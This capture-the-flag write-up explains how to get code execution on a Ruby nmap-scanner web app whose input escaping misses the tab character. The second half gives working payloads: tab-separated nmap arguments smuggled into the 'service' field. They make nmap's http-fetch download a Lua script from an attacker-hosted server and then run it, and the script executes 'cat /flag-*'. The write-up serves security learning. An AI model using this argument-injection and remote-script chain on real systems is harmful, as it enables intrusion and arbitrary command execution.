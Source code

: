 + This challenge allows us to scan an IP:PORT pair using the nmap tool. The goal of this kind of challenge is used to achieve RCE.
+ In scanner.rb:
```
post '/' do
    input_service = escape_shell_input(params[:service])
    hostname, port = input_service.split ':', 2
    begin
      if valid_ip? hostname and valid_port? port
        # Service up?
        s = TCPSocket.new(hostname, port.to_i)
        s.close
        # Assuming valid ip and port, this should be fine
        @scan_result = IO.popen("nmap -p #{port} #{hostname}").read
      else
        @scan_result = "Invalid input detected, aborting scan!"
      end
    rescue Errno::ECONNREFUSED
      @scan_result = "Connection refused on #{hostname}:#{port}"
    rescue => e
      @scan_result = e.message
    end
```
+ code checks if both the hostname and port are valid using the valid_ip? and valid_port?
+ If both the IP address and port are valid, it attempts to create a TCP socket connection to the specified hostname and port
+ If the connection is successful, it immediately closes the socket and proceeds to run an Nmap scan using the IO.popen function. The Nmap command scans the specified port on the specified host.

In scanner_helper.rb:
```
def valid_port?(input)
  !input.nil? and (1..65535).cover?(input.to_i)
end

def valid_ip?(input)
  pattern = /\A((25[0-5]|2[0-4]\d|[01]?\d{1,2})\.){3}(25[0-5]|2[0-4]\d|[01]?\d{1,2})\z/
  !input.nil? and !!(input =~ pattern)
end

# chatgpt code :-)
def escape_shell_input(input_string)
  escaped_string = ''
  input_string.each_char do |c|
    case c
    when ' '
      escaped_string << '\\ '
    when '$'
      escaped_string << '\\$'
    when '`'
      escaped_string << '\\`'
    when '"'
      escaped_string << '\\"'
    when '\\'
      escaped_string << '\\\\'
    when '|'
      escaped_string << '\\|'
    when '&'
      escaped_string << '\\&'
    when ';'
      escaped_string << '\\;'
    when '<'
      escaped_string << '\\<'
    when '>'
      escaped_string << '\\>'
    when '('
      escaped_string << '\\('
    when ')'
      escaped_string << '\\)'
    when "'"
      escaped_string << '\\\''
    when "\n"
      escaped_string << '\\n'
    when "*"
      escaped_string << '\\*'
    else
      escaped_string << c
    end
  end

  escaped_string
end
```
+ `valid_port` function checks if the input is not nil and the input value is within the range of valid port numbers (1 to 65535).
+ `valid_ip` functions uses regular expressions to validate if the provided input is a valid IPv4 address. It returns true if the input is not nil and matches the defined IPv4 pattern.
+ `escape_shell_input` function returns a new string with the escaped characters, ensuring that the input string is safe to use in shell commands. This particular function escapes a lot of possible cmd injections possibilities.
+ We can observe that Tab isn't blacklisted, we can use %09 to give options
+ We can use tab to add arguments.
+ Script feature of nmap: The Nmap Scripting Engine (NSE) is one of Nmap's most powerful and flexible features. It allows users to write (and share) simple scripts to automate a wide variety of networking tasks. Those scripts are then executed in parallel with the speed and efficiency you expect from Nmap. Nmap scripts are written in Lua
+ so our goal is to upload a lua script and then execute it.
+ We have argument injection via tab(%09) character
![image](https://github.com/av4nth1ka/My-Writeups/assets/80388135/1854a9a1-0cf9-483f-9225-fac082f30e43)
+ Now we need to read the flag, according to GTFObins we can try to execute system commands via --script option
![image](https://github.com/av4nth1ka/My-Writeups/assets/80388135/58413cf3-9b14-4f29-9bc2-4fd365d987b2)
But due to the escape character filter, this wont work
+ We can download arbitrary files using to target machine via `http-fetch`.
![image](https://github.com/av4nth1ka/My-Writeups/assets/80388135/0f5238c7-689a-42ba-b2bb-02e20730f13e)

payload: service=172.17.0.1:80%09--script%09http-fetch%09--script-args%09http-fetch.destination=/tmp,http-fetch.url=/payload.nse
`payload.nse`
os.execute('cat /flag-*')

+ Host the payload.nse payload script via Python’s http.server module & Upload the payload script via Nmap’s http-fetch module
  ![image](https://github.com/av4nth1ka/My-Writeups/assets/80388135/adb2c361-80ea-48a7-aa4a-dfa2128be73c)
  Now run the uploaded script:
  ```
  service=172.17.0.1:80%09--script%09/tmp/172.17.0.1/80/payload.nse
  ```
  Thus we get the flag locally!



